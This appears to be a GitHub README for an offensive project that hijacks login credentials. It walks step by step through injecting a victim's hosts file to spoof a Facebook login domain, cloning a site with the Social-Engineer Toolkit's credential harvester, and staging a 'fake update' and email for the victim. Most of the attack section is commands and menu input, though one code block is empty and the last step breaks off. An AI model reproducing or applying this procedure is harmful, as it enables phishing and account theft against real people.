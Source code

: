 # WARNING: This is a development project and is not READY for USING ;)
- BR
------------------------------------------------------------------------------------------
# SSTC-HTTPS-hijack-login-credentials 
- by nu11secur1ty

![](https://github.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials/blob/master/logo/https_image-620x499.jpg)


- Installing requirements
     https://github.com/trustedsec/social-engineer-toolkit

- Preparing packages
For other Linux distro attackers
```
$ git clone https://github.com/trustedsec/social-engineer-toolkit/ set/
$ cd set
$ pip install -r requirements.txt
```
------------------------------------------------------------

# Exploit steps:

1. - Injecting the hosts file of the victim:
```
```

2. - Creating hosts exploit facebook.login.com
```bash
git clone https://github.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials.git
cd SSTC-HTTPS-hijack-login-credentials/Attacker/hosts_fake_inject
bash fakehost.sh
     follow the instruction...
```

3. - setoolkit
```bash
setoolkit
1) Social-Engineering Attacks
     set>1
     enter
2) Website Attack Vectors
     set>2
     enter
3) Credential Harvester Attack Method
     set:webattack>3
     enter
2) Site Cloner
     set:webattack>2
     enter
set:webattack> IP address for the POST back in Harvester/Tabnabbing [10.10.10.100]:_your_local_layer2_IP_
     enter
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone: _your_site_
     enter
     enter
```
4. - Prepare fake update for the victim
```bash
cd SSTC-HTTPS-hijack-login-credentials/Attacker/sh1mazu_https_fake
bash sh1m@zu.sh
[1]
     enter
```


5. - Sending email on the victim





